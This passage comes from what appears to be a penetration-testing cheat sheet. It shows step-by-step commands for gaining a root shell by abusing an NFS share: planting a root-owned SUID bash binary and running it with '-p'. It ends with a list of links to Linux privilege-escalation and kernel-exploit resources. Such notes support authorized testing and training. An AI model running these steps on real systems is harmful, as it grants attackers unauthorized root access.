    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>

##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash
